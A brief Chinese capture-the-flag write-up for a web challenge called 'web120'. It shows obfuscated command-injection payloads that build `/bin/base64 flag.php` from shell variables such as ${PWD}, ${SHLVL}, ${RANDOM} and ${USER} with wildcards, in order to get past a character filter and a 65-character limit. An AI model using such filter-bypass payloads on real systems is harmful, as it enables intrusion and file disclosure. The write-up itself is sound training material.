#### web120

打开是一串源码，其实就是前面两题的源码加点东西

![image-20250224231429433](assets/image-20250224231429433.png)

注意到code的长度不可以超过65，这需要我们注意构造的命令长度

考虑构造`/bin/base64 flag.php`：

```
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

多试几次拿到base64的flag

题目给的payload是

```
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```

`${USER:~A}`执行是a

符合条件的有以下命令

![image-20250224233147965](assets/image-20250224233147965.png)
